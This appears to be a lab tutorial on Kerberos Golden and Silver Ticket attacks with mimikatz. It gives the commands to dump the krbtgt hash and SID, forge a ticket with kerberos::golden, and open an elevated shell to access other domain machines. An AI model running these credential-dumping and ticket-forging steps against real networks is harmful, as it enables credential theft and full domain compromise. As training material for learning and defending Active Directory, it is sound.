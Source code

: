 ## Golden/Silver Ticket Attack Overview 

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

![](https://i.imgur.com/GT1kkfo.png)

## Dump the krbtgt hash

﻿1.) `cd downloads && mimikatz.exe` - navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - ensure this outputs [privilege '20' ok]

﻿3.) `lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

![](https://i.imgur.com/VOEsU4O.png)  

## Create a Golden/Silver Ticket

﻿1.) `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.

![](https://i.imgur.com/rh06qDl.png)

## Use the Golden/Silver Ticket to access other machines

﻿1.) `misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

![](https://i.imgur.com/6HnEnwi.png)

2.) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.

![](https://i.imgur.com/BSh4rXy.png)  

This attack will not work without other machines on the domain however I challenge you to configure this on your own network and try out these attacks.

# Kerberos Backdoors w/ mimikatz
